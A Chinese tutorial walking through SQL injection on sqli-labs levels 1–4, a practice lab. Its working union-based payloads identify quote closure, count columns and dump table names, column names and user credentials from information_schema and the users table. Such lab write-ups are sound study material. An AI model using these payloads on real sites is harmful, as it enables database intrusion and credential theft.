# sqli-labs一到四关——最基本的注入流程


## 关于URL
注入的过程离不开浏览器上方的地址栏，地址栏是URL的展示窗口。  
URL(Uniform Resource Locator)统一资源定位器定义了互联网上某个资源的坐标。  
问号?是查询字符串的起始标志，可以把网页地址和传递给服务器的数据分开。  
连接符&用于分割多个参数。  
井号#用于指定页面内的锚点，井号后的内容不会发给服务器。  
MySQL中'-- '和'#'起注释符的作用，可以注释掉后面的内容。  
在URL中空格是非法字符，通常会被转换成'+'或者%20，PHP收到后会自动将它还原

## 基本闭合方式
常见的几种闭合方式如下。  
在标准写法中用单引号闭合，但MySQL中双引号与单引号效果相同，是合法但不标准的一种写法。
```sql
SELECT * FROM `table_name` WHERE id = '1'
SELECT * FROM `table_name` WHERE id = 1
SELECT * FROM `table_name` WHERE id = “1”
SELECT * FROM `table_name` WHERE id = (‘1’)
SELECT * FROM `table_name` WHERE id = ("1")
```
## Less-1

先测试注入点
```sql
?id=1'
```

```sql
?id=1' or '1' = '1
```

测试出是用单引号闭合的。页面有回显，可以使用联合查询，联合查询需要两张表格列数相同，所以我们需要找出该表格有几列。
```sql
?id=1' order by 3 --+
```

4报错，3成功，说明有三列。接下来需要知道这三列哪个是显示出来的。  
这里需要用到联合查询(union select)，特点是将前后两组查询数据拼在一起，为了让网页显示出注入的数据，我们需要用一组不存在的数据让原本的查询查不到数据从而显示出我们注入的数据。
```sql
?id=-1' union select 1,2,3 --+
```

接下来获取数据库名和版本号
```sql
?id=-1' union select 1,database(),version() --+
```

根据MySQL的查询顺序，我们接下来要从对应数据库中查询特定表格，再从表格中获取表格的字段名，然后查出想要的数据。  
```sql
?id=-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema = 'security' --+
```

```sql
?id=-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_name = 'users' --+
```

```sql
?id=-1' union select 1,group_concat(id,username,password),3 from users --+
```

这里的information_schema是一个MySQL自带的特殊数据库，类似于总目录。其中有两个表，分别是tables和columns。  
tables记录了所有的表在哪里，其中的字段table_schema和table_name记录了表属于哪个数据库和表的名字。  
同理，columns记录了所有表的所有字段，其中的字段column_name和table_name记录了字段名和所属表的名字。  
group_concat是MySQL的一个内置函数，作用是将括号内的查询结果连接在一起。  

Less-1后端代码如下  

## Less-2
流程相同，但是在判断闭合类型的时候发现or '1'='1报错，说明是其他类型的闭合方式，修改后得知是不闭合类型。
```sql
?id=1 or 1=1
```

后续构造过程去掉单引号即可。后端如下

## Less-3

观察回显信息发现闭合有括号，所以是有括号的单引号闭合
```sql
?id=1') --+
```

后续构造闭合括号加单引号。后端如下

## Less-4
尝试用?id=1'判断注入点发现不报错，说明单引号被当作完整的字符串了，尝试用双引号闭合。


闭合成功，同样有括号，构造双引号加括号形式。
```sql
?id=1") --+
```

后端如下
